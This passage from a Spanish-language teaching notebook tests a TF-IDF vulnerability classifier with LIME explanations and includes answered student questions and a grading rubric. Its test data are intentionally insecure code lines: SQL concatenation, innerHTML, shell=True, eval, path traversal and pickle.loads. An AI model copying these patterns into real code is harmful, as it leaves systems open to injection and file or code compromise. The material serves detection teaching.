        "riesgo_esperado": "Inserción de entrada no confiable en HTML sin sanitización."
    },
    {
        "caso": "Command Injection",
        "codigo": "subprocess.call('ping -c 1 ' + host, shell=True)",
        "riesgo_esperado": "Ejecución de comando del sistema construido con entrada del usuario."
    },
    {
        "caso": "Ejecución dinámica con eval",
        "codigo": "result = eval(request.GET.get('expression'))",
        "riesgo_esperado": "Ejecución de texto controlado por el usuario como código."
    },
    {
        "caso": "Path Traversal",
        "codigo": "file_content = open('/var/www/files/' + request.args.get('filename')).read()",
        "riesgo_esperado": "Lectura de archivos mediante ruta construida con entrada del usuario."
    },
    {
        "caso": "Deserialización insegura",
        "codigo": "obj = pickle.loads(request.data)",
        "riesgo_esperado": "Deserialización de datos no confiables."
    },
]

# 1. Extraer los textos
codigos_vulnerables = [item["codigo"] for item in fragmentos_vulnerables_nuevos]

# 2. ¡CRUCIAL! Vectorizar los códigos usando el MISMO vectorizador entrenado
codigos_vulnerables_vec = vectorizer.transform(codigos_vulnerables)

# 3. Realizar predicciones usando la matriz vectorizada
probs_vuln = model.predict_proba(codigos_vulnerables_vec)
preds_vuln = model.predict(codigos_vulnerables_vec)

# Asegurar que class_names esté definido
class_names = ["seguro", "vulnerable"]

# 4. Crear el DataFrame de resultados
df_vuln = pd.DataFrame({
    "caso": [item["caso"] for item in fragmentos_vulnerables_nuevos],
    "codigo": codigos_vulnerables,
    "riesgo_esperado": [item["riesgo_esperado"] for item in fragmentos_vulnerables_nuevos],
    "prediccion_modelo": [class_names[p] for p in preds_vuln],
    "prob_seguro": probs_vuln[:, 0],
    "prob_vulnerable": probs_vuln[:, 1],
})

display(df_vuln)

,caso,codigo,riesgo_esperado,prediccion_modelo,prob_seguro,prob_vulnerable
0,SQL Injection,"query = ""SELECT * FROM users WHERE username = '"" + username + ""' AND password = '"" + password + ""'""",Concatenación directa de entrada del usuario en una consulta SQL.,vulnerable,0.028293,0.971707
1,XSS con innerHTML,document.getElementById('profile').innerHTML = '<h1>' + request.params.name + '</h1>';,Inserción de entrada no confiable en HTML sin sanitización.,vulnerable,0.300837,0.699163
2,Command Injection,"subprocess.call('ping -c 1 ' + host, shell=True)",Ejecución de comando del sistema construido con entrada del usuario.,vulnerable,0.464189,0.535811
3,Ejecución dinámica con eval,result = eval(request.GET.get('expression')),Ejecución de texto controlado por el usuario como código.,seguro,0.722357,0.277643
4,Path Traversal,file_content = open('/var/www/files/' + request.args.get('filename')).read(),Lectura de archivos mediante ruta construida con entrada del usuario.,seguro,0.619369,0.380631
5,Deserialización insegura,obj = pickle.loads(request.data),Deserialización de datos no confiables.,seguro,0.521295,0.478705


Caso: SQL Injection
Predicción del modelo: vulnerable
Probabilidad seguro: 0.0283
Probabilidad vulnerable: 0.9717

Código:
query = "SELECT * FROM users WHERE username = '" + username + "' AND password = '" + password + "'"

Tokens o patrones que influyeron según LIME para la clase 'vulnerable':


,token_o_patron,peso_hacia_vulnerable,influencia
0,AND,-0.007348,disminuye probabilidad de vulnerable
1,username,-0.007103,disminuye probabilidad de vulnerable
2,users,-0.006357,disminuye probabilidad de vulnerable
3,FROM,0.001175,aumenta probabilidad de vulnerable
4,query,0.000915,aumenta probabilidad de vulnerable
5,SELECT,0.000098,aumenta probabilidad de vulnerable
6,WHERE,0.000067,aumenta probabilidad de vulnerable
7,password,-0.000033,disminuye probabilidad de vulnerable




Interpretación:
El modelo se inclinó hacia 'vulnerable' principalmente por patrones como: FROM, query, SELECT, WHERE. Estos tokens aparecen asociados en el entrenamiento con construcciones inseguras.
Caso: XSS con innerHTML
Predicción del modelo: vulnerable
Probabilidad seguro: 0.3008
Probabilidad vulnerable: 0.6992

Código:
document.getElementById('profile').innerHTML = '<h1>' + request.params.name + '</h1>';

Tokens o patrones que influyeron según LIME para la clase 'vulnerable':


,token_o_patron,peso_hacia_vulnerable,influencia
0,h1,-0.240422,disminuye probabilidad de vulnerable
1,profile,-0.031766,disminuye probabilidad de vulnerable
2,innerHTML,0.022670,aumenta probabilidad de vulnerable
3,request,-0.018001,disminuye probabilidad de vulnerable
4,document,0.015370,aumenta probabilidad de vulnerable
5,name,-0.001599,disminuye probabilidad de vulnerable
6,getElementById,-0.001534,disminuye probabilidad de vulnerable
7,params,-0.000840,disminuye probabilidad de vulnerable




Interpretación:
El modelo se inclinó hacia 'vulnerable' principalmente por patrones como: innerHTML, document. Estos tokens aparecen asociados en el entrenamiento con construcciones inseguras.
Caso: Command Injection
Predicción del modelo: vulnerable
Probabilidad seguro: 0.4642
Probabilidad vulnerable: 0.5358

Código:
subprocess.call('ping -c 1 ' + host, shell=True)

Tokens o patrones que influyeron según LIME para la clase 'vulnerable':


,token_o_patron,peso_hacia_vulnerable,influencia
0,1,-0.158156,disminuye probabilidad de vulnerable
1,True,0.084480,aumenta probabilidad de vulnerable
2,c,0.000178,aumenta probabilidad de vulnerable
3,call,0.000167,aumenta probabilidad de vulnerable
4,shell,0.000129,aumenta probabilidad de vulnerable
5,ping,0.000100,aumenta probabilidad de vulnerable
6,subprocess,0.000082,aumenta probabilidad de vulnerable
7,host,0.000053,aumenta probabilidad de vulnerable




Interpretación:
El modelo se inclinó hacia 'vulnerable' principalmente por patrones como: True, c, call, shell, ping, subprocess. Estos tokens aparecen asociados en el entrenamiento con construcciones inseguras.
Caso: Ejecución dinámica con eval
Predicción del modelo: seguro
Probabilidad seguro: 0.7224
Probabilidad vulnerable: 0.2776

Código:
result = eval(request.GET.get('expression'))

Tokens o patrones que influyeron según LIME para la clase 'vulnerable':


,token_o_patron,peso_hacia_vulnerable,influencia
0,get,0.082199,aumenta probabilidad de vulnerable
1,GET,0.082014,aumenta probabilidad de vulnerable
2,result,0.049334,aumenta probabilidad de vulnerable
3,request,0.036301,aumenta probabilidad de vulnerable
4,expression,0.002196,aumenta probabilidad de vulnerable
5,eval,0.001631,aumenta probabilidad de vulnerable




Interpretación:
El modelo se inclinó hacia 'vulnerable' principalmente por patrones como: get, GET, result, request, expression, eval. Estos tokens aparecen asociados en el entrenamiento con construcciones inseguras.
Caso: Path Traversal
Predicción del modelo: seguro
Probabilidad seguro: 0.6194
Probabilidad vulnerable: 0.3806

Código:
file_content = open('/var/www/files/' + request.args.get('filename')).read()

Tokens o patrones que influyeron según LIME para la clase 'vulnerable':


,token_o_patron,peso_hacia_vulnerable,influencia
0,get,0.039957,aumenta probabilidad de vulnerable
1,request,0.039383,aumenta probabilidad de vulnerable
2,args,0.039007,aumenta probabilidad de vulnerable
3,files,-0.017048,disminuye probabilidad de vulnerable
4,var,-0.016766,disminuye probabilidad de vulnerable
5,www,0.014231,aumenta probabilidad de vulnerable
6,read,0.001353,aumenta probabilidad de vulnerable
7,open,0.000858,aumenta probabilidad de vulnerable
8,filename,0.000490,aumenta probabilidad de vulnerable
9,file_content,0.000142,aumenta probabilidad de vulnerable




Interpretación:
El modelo se inclinó hacia 'vulnerable' principalmente por patrones como: get, request, args, www, read, open. Estos tokens aparecen asociados en el entrenamiento con construcciones inseguras.
Caso: Deserialización insegura
Predicción del modelo: seguro
Probabilidad seguro: 0.5213
Probabilidad vulnerable: 0.4787

Código:
obj = pickle.loads(request.data)

Tokens o patrones que influyeron según LIME para la clase 'vulnerable':


,token_o_patron,peso_hacia_vulnerable,influencia
0,request,0.132859,aumenta probabilidad de vulnerable
1,pickle,-0.000043,disminuye probabilidad de vulnerable
2,loads,-0.000034,disminuye probabilidad de vulnerable
3,data,-0.000033,disminuye probabilidad de vulnerable
4,obj,-0.000032,disminuye probabilidad de vulnerable




Interpretación:
El modelo se inclinó hacia 'vulnerable' principalmente por patrones como: request. Estos tokens aparecen asociados en el entrenamiento con construcciones inseguras.


In [61]:
def explicar_fragmento_con_lime(codigo, caso, num_features=10):
    # CORRECCIÓN: Vectorizar el código antes de pasarlo a predict_proba
    codigo_vec = vectorizer.transform([codigo])
    pred_proba = model.predict_proba(codigo_vec)[0]
    
    pred_label = int(np.argmax(pred_proba))

    exp_local = explainer.explain_instance(
        codigo,
        predict_proba_for_lime,
        num_features=num_features,
        labels=[0, 1],
    )

    pesos_vulnerable = pd.DataFrame(
        exp_local.as_list(label=1),
        columns=["token_o_patron", "peso_hacia_vulnerable"]
    )
    pesos_vulnerable["influencia"] = np.where(
        pesos_vulnerable["peso_hacia_vulnerable"] > 0,
        "aumenta probabilidad de vulnerable",
        "disminuye probabilidad de vulnerable"
    )

    print("=" * 100)
    print("Caso:", caso)
    print("Predicción del modelo:", class_names[pred_label])
    print("Probabilidad seguro:", round(pred_proba[0], 4))
    print("Probabilidad vulnerable:", round(pred_proba[1], 4))
    print("\nCódigo:")
    print(codigo)
    print("\nTokens o patrones que influyeron según LIME para la clase 'vulnerable':")
    display(pesos_vulnerable)

    plt.figure(figsize=(8, 4))
    sns.barplot(data=pesos_vulnerable, x="peso_hacia_vulnerable", y="token_o_patron", orient="h")
    plt.axvline(0, color="black", linewidth=1)
    plt.title(f"LIME: influencia hacia 'vulnerable' - {caso}")
    plt.xlabel("Peso hacia la clase vulnerable")
    plt.ylabel("Token o patrón")
    plt.show()

    tokens_positivos = pesos_vulnerable[pesos_vulnerable["peso_hacia_vulnerable"] > 0]["token_o_patron"].tolist()
    if tokens_positivos:
        print("Interpretación:")
        print(
            "El modelo se inclinó hacia 'vulnerable' principalmente por patrones como: "
            + ", ".join(tokens_positivos[:6])
            + ". Estos tokens aparecen asociados en el entrenamiento con construcciones inseguras."
        )
    else:
        print("Interpretación:")
        print("LIME no encontró tokens con peso positivo hacia 'vulnerable' entre los principales rasgos.")


# Explicar todos los fragmentos vulnerables nuevos.
for item in fragmentos_vulnerables_nuevos:
    explicar_fragmento_con_lime(item["codigo"], item["caso"], num_features=10)

### Preguntas de análisis para estudiantes

#### 1. ¿Qué tokens aumentaron más la probabilidad de `vulnerable`?

| Tipo de Ataque | Tokens Clave (LIME > 0) | Justificación e Interpretación del Modelo |
| :--- | :--- | :--- |
| **1. SQL Injection** | `FROM`, `query`, `SELECT`, `WHERE` | LIME identificó que estas palabras reservadas estructuran una consulta a base de datos, activando las alertas del clasificador hacia un contexto de posible inyección. |
| **2. XSS con `innerHTML`** | `innerHTML`, `document` | El modelo detectó que manipular directamente el DOM del navegador utilizando la propiedad `innerHTML` es un vector clásico de ejecución de scripts no confiables. |
| **3. Command Injection** | `True`, `subprocess`, `c`, `shell`, `ping`, `host` | Elementos críticos de ejecución de procesos en el sistema operativo (como `subprocess` y `shell=True`, junto con comandos como `ping`) fueron los principales indicadores de riesgo. |
| **4. Ejecución dinámica con `eval`** | `eval`, `expression`, `GET`, `request`, `result` | La combinación de la función peligrosa `eval` con la captura de parámetros web (`request.GET`) indicó al modelo que se intentaba evaluar código controlado por el usuario. |
| **5. Path Traversal** | `file_content`, `filename`, `args`, `www`, `request` | El uso de argumentos de peticiones web para armar rutas de archivos o directorios web (`/var/www/...`) sirvió como patrón para detectar acceso indebido a ficheros. |
| **6. Deserialización Insegura** | `request` | La captura de datos crudos provenientes de peticiones del usuario combinada con funciones de carga de objetos alertó al modelo sobre el riesgo de datos no confiables. |

---

#### 2. ¿Coinciden esos tokens con el riesgo real del fragmento?

* **SQL Injection (Coincidencia alta):**
  * **Tokens:** `FROM`, `query`, `SELECT`, `WHERE`.
  * **¿Coincide con el riesgo real?** Sí. Aunque el verdadero peligro en una inyección SQL es la concatenación insegura de variables (`+ username +`), el modelo acierta al asociar las palabras clave de una consulta SQL con la estructura típica donde ocurren estos fallos.

* **XSS con innerHTML (Coincidencia total):**
  * **Tokens:** `innerHTML`, `document`.
  * **¿Coincide con el riesgo real?** Absolutamente sí. Aquí la coincidencia es perfecta. `innerHTML` es precisamente el vector de riesgo real en JavaScript porque inyecta texto como código HTML/JS interpretable por el navegador sin sanitizar.

* **Command Injection (Coincidencia alta):**
  * **Tokens:** `subprocess`, `shell`, `ping`, `host`.
  * **¿Coincide con el riesgo real?** Sí. `subprocess` y especialmente el argumento `shell=True` son exactamente los detonantes críticos del riesgo en Python, ya que permiten que el sistema operativo interprete comandos externos concatenados con variables del usuario.

* **Ejecución dinámica con eval (Coincidencia moderada):**
  * **Tokens:** `eval`, `expression`, `GET`, `request`.
  * **¿Coincide con el riesgo real?** Sí en cuanto a `eval` (que es la función intrínsecamente peligrosa), pero el modelo le da mucho peso a palabras genéricas de peticiones web (`GET`, `request`), lo cual demuestra que asocia cualquier entrada web con peligro, más allá de evaluar si el parámetro está debidamente sanitizado o no.

* **Path Traversal (Coincidencia moderada):**
  * **Tokens:** `file_content`, `filename`, `args`, `www`.
  * **¿Coincide con el riesgo real?** Parcialmente. Los tokens apuntan a que se manejan nombres de archivos y argumentos web, pero el modelo carece de la capacidad de entender la semántica de una ruta de Linux o de una concatenación de directorios (`/var/www/files/` + `filename`).

* **Deserialización Insegura (Coincidencia baja / Limitación del modelo):**
  * **Tokens:** Solo `request`.
  * **¿Coincide con el riesgo real?** No del todo. El token clave real de este riesgo es `pickle.loads`, pero LIME y el vectorizador no lo destacaron como el principal factor de peso. Esto muestra que el modelo tuvo problemas para capturar la peligrosidad específica de la librería `pickle` debido a la falta de ejemplos masivos de este tipo en su entrenamiento.

---

#### 3. ¿Hubo algún fragmento vulnerable clasificado como `seguro`?

* **Ejecución dinámica con eval**
  * **Código:** `result = eval(request.GET.get('expression'))`
  * **Predicción del modelo:** `seguro` (con un 72.2% de probabilidad de ser seguro).

* **Path Traversal**
  * **Código:** `file_content = open('/var/www/files/' + request.args.get('filename')).read()`
  * **Predicción del modelo:** `seguro` (con un 61.9% de probabilidad de ser seguro).

* **Deserialización insegura**
  * **Código:** `obj = pickle.loads(request.data)`
  * **Predicción del modelo:** `seguro` (con un 52.1% de probabilidad de ser seguro, rozando el empate técnico).

---

#### 4. ¿Qué limitaciones tiene explicar código fuente como si fuera texto?

* **Ceguera sintáctica y estructural (Falta de AST):**
  El código no es una secuencia lineal de palabras con significado aislado; posee una jerarquía lógica rigurosa dictada por la gramática del lenguaje (bucles, bloques de control, ámbitos de variables, llaves y paréntesis). Un modelo de texto plano ignora los Árboles de Sintaxis Abstracta (AST), tratando al código como si fuera un párrafo de un libro.

* **Ausencia de análisis de flujo de datos (Taint Analysis):**
  Para determinar si hay una vulnerabilidad real (como una inyección SQL o Path Traversal), un sistema de seguridad necesita rastrear el flujo de datos: ¿De dónde viene la variable? ¿Pasó por una función de saneamiento o validación antes de ser utilizada? Los modelos de texto solo detectan la presencia estática de ciertas palabras, sin saber si esa variable es segura o si el flujo de ejecución la neutraliza.

* **Problemas con la tokenización de operadores y símbolos:**
  Los tokenizadores de texto estándar están diseñados para separar palabras por espacios o signos de puntuación gramaticales. En programación, los operadores (`==`, `+=`, `->`, `=>`, `//`) y los caracteres especiales son vitales. Si el tokenizador rompe mal un operador, el modelo pierde por completo el significado lógico de la instrucción.

* **Perturbaciones sintácticamente inválidas en LIME:**
  Para explicar una predicción, LIME funciona alterando, enmascarando o eliminando palabras al azar para ver cómo reacciona el modelo. Cuando LIME hace esto en código fuente, genera fragmentos completamente inválidos a nivel de compilación o sintaxis (por ejemplo, `SELECT FROM WHERE` sin variables). Evaluar código roto distorsiona la lógica local que LIME intenta explicar.

* **Alta sensibilidad a los nombres de las variables:**
  Un modelo basado en texto suele sesgarse fácilmente por los nombres que el programador le dio a las variables (por ejemplo, si una variable se llama `user_input`, el modelo puede asociarla erróneamente con peligro, aunque esté sanitizada; o si se llama `x`, puede pasar desapercibida). El texto no comprende la semántica detrás de un identificador.

---

#### 5. ¿Cómo mejoraría el modelo para reconocer patrones semánticos, no solo tokens?

* **Migrar de Bolsas de Palabras a Modelos de Lenguaje de Código (Code Embeddings):**
  En lugar de usar TF-IDF (que solo cuenta frecuencias de palabras sueltas), se deben utilizar modelos preentrenados específicamente en bases de código masivas, como `CodeBERT`, `GraphCodeBERT` o `UniXcoder`. Estos modelos transforman el código en vectores densos que comprenden el contexto léxico y la semántica profunda del lenguaje de programación.

* **Incorporar el Árbol de Sintaxis Abstracta (AST - Abstract Syntax Tree):**
  En lugar de tratar el código como texto plano, se puede parsear el código a un AST utilizando herramientas como `ast` en Python o árboles sintácticos. Analizar el código como un grafo de dependencias estructurales permite que el modelo entienda la jerarquía de bloques, bucles y llamadas a funciones sin importar cómo se llamen las variables.

* **Análisis de Flujo de Datos (Taint Analysis y Redes Neuronales de Grafos):**
  Para detectar vulnerabilidades complejas (como Path Traversal o Inyecciones), el modelo debe rastrear el flujo de los datos desde la fuente de entrada (`source`, ej. parámetros web) hasta el sumidero (`sink`, ej. `open()`, `eval()`, `exec()`). Combinar Redes Neuronales de Grafos (GNNs) sobre el flujo de control y datos permite modelar el verdadero comportamiento lógico de la aplicación.

* **Entrenamiento con Datasets Multiclase y Balanceados:**
  Ampliar el conjunto de entrenamiento incorporando miles de ejemplos reales y sintéticos de vulnerabilidades avanzadas (`eval`, `pickle`, desbordamientos, etc.). Un modelo no puede predecir lo que nunca ha visto; enriquecer el dataset con código seguro sanitizado y código inseguro de diversos frameworks mejorará drásticamente su precisión.

* **Tokenización a Nivel de Subpalabras (BPE - Byte-Pair Encoding):**
  Utilizar tokenizadores avanzados como los de los modelos Transformers modernos en lugar de separar por espacios o símbolos simples. Esto evita que operadores compuestos (`==`, `!=`, `->`, `+=`) o llamadas anidadas se rompan incorrectamente, manteniendo intacta la semántica de los comandos.

---

### Nota metodológica

Si el modelo fue entrenado con ejemplos sintéticos, sus explicaciones también reflejarán esos ejemplos sintéticos. Para un proyecto real, use datos balanceados y reales con fragmentos seguros y vulnerables, revise falsos positivos/falsos negativos y valide con herramientas de seguridad adicionales.

## Reto para estudiantes

1. Cambia el modelo por `LinearSVC`, `RandomForestClassifier` o `XGBoost` si está disponible.
2. Ajusta `ngram_range`, `max_features` y `min_df` del vectorizador.
3. Reporta cuál métrica priorizarías en un sistema real de seguridad y por qué.
4. Identifica 5 falsos positivos y 5 falsos negativos.
5. Propón mejoras para pasar de fragmentos aislados a análisis de repositorios completos.

## Criterios de evaluación sugeridos

| Criterio | Peso |
|---|---:|
| Carga y exploración correcta del dataset | 20% |
| Limpieza y normalización de etiquetas | 15% |
| Entrenamiento reproducible del modelo | 20% |
| Evaluación con métricas adecuadas | 20% |
| Explicación con LIME e interpretación crítica | 15% |
| Discusión de limitaciones y uso responsable | 10% |

## Cierre

La minería de datos aplicada a ciberseguridad permite identificar patrones asociados a vulnerabilidades, pero los modelos dependen fuertemente de los datos de entrenamiento. En escenarios reales, estos modelos deben combinarse con análisis estático, pruebas dinámicas, revisión humana y prácticas de desarrollo seguro.